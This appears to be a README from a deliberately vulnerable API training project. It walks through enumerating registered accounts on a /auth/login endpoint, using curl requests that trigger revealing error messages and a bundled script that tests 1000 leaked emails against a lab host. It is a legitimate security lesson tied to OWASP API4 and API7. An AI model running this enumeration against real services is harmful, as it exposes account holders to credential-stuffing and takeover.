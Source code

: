 # Identify registered email addresses

A lot of valuable information has been leaked in the past by others. Attackers can easily get lists of email addresses - sometimes even with passwords - of accounts that were leaked elsewhere. Because our API returns errors messages that are too verbose and because there is no rate limiting on the `/auth/login` endpoint, attackers can easily match lists of email addresses with registered accounts. 

```bash
curl -X POST http://<hostname>:<port>/auth/login -H "Content-Type: application/json" -d "{\"email\":\"doesnotexist@gmail.com\",\"password\":\"password123\"}"
{"status":401,"message":"Wrong email address"}

curl -X POST http://<hostname>:<port>/auth/login -H "Content-Type: application/json" -d "{\"email\":\"overrillo0@redcross.org\",\"password\":\"password123\"}"
{"status":401,"message":"Wrong password"}
```

Here is a list of [1000 leaked email addresses](../../demos//attack-2/leaked.txt). With a bit of scripting - which I have done for you - you can easily try every email address and see what happens. The script sends the email address with password `password` to the API. Using the error message (`Wrong email address` or `Wrong password`) we can identify those email addresses that are registered with an account. When we run the script we see that we've been able to match six email addresses. 

```bash
deliver haveibeenpwned ./leaked.txt
______ _____ _     _____ _   _ ___________
|  _  \  ___| |   |_   _| | | |  ___| ___ \
| | | | |__ | |     | | | | | | |__ | |_/ /
| | | |  __|| |     | | | | | |  __||    /
| |/ /| |___| |_____| |_\ \_/ / |___| |\ \
|___/ \____/\_____/\___/ \___/\____/\_| \_|


Attacking http://192.168.1.23:3333/auth/login
Dictionary has 1000 email addresses
Trying 100 batches of 10 emails

[==================================================] 100% 0.0s

Duration: 2.108 secs
Found 6 accounts

lposthill1@sbwire.com
pchampkin2@t.co
nratcliffe3@digg.com
odettmar4@salon.com
cdonnell5@desdev.cn
hhalward6@google.nl
``` 

In this example we've seen two of the [OWASP API top 10](https://owasp.org/www-project-api-security/) vulnerabilities:

- [API4-2019: Lack of Resources & Rate Limiting](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa4-lack-of-resources-and-rate-limiting.md) as there is no restriction on how many times you can try to log in.
- [API7-2019: Security Misconfiguration](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa7-security-misconfiguration.md) as the error messages are too verbose and give an attacker clues about how to identify accounts. 

# Note 

- For convenience reasons I have included a script here that performs the attack for you. [Burp Suite](https://portswigger.net/burp) is a well-known application for penetration testing and provides similar featuers and much more. It has a steep learning curve, but if you are serious about penetration testing you'll want to dig into it.

- An awesome resource for checking if you own email address has every been compromised in a breach is the website [';-- Have I Been Pwned?](https://haveibeenpwned.com/).

